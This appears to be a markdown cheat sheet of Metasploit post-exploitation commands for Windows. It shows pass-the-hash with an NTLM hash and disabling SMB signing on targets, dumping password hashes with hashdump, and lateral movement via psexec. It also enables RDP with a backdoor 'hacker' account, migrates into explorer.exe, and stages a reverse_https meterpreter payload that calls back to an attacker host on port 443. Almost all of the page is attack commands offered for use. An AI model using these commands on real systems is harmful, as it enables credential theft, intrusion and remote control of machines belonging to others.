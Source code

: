 ## Pass the hash

If NTML only:

```bash
00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c
STATUS_ACCESS_DENIED (Command=117 WordCount=0):
```

This can be remedied by navigating to the registry key, `"HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters"` on the target systems and setting the value of `"RequireSecuritySignature"` to `"0"`

```
# Run hashdump on the first compromised machine:
meterpreter> run post/windows/gather/hashdump

# Run Psexec module and specify the hash:
meterpreter> use exploit/windows/smb/psexec
```

## Enable RDP:

```bash
meterpreter> run getgui -u hacker -p s3cr3t

# Clean up command:
meterpreter> run multi_console_command \
                 -rc /root/.msf3/logs/scripts/getgui/clean_up__20110112.2448.rc
```

## AutoRunScript

1) Automatically run scripts before exploiation:

   ```bash
   set AutoRunScript "migrate explorer.exe"
   ```

1) Set up SOCKS proxy in MSF

1) Run a post module against all sessions

   ```bash
   $ resource /usr/share/metasploit-framework/scripts/resource/run_all_post.rc
   ```

1) Find local subnets 'Whilst in meterpreter shell'

   ```bash
   meterpreter> run get_local_subnets
   ```

1) Add the correct Local host and Local port parameters

   ```bash
   $ echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https \
                            -Lhost 192.168.0.7 \
                            -Lport 443 \
                            -Force" \
   >> /var/www/payload
   ```
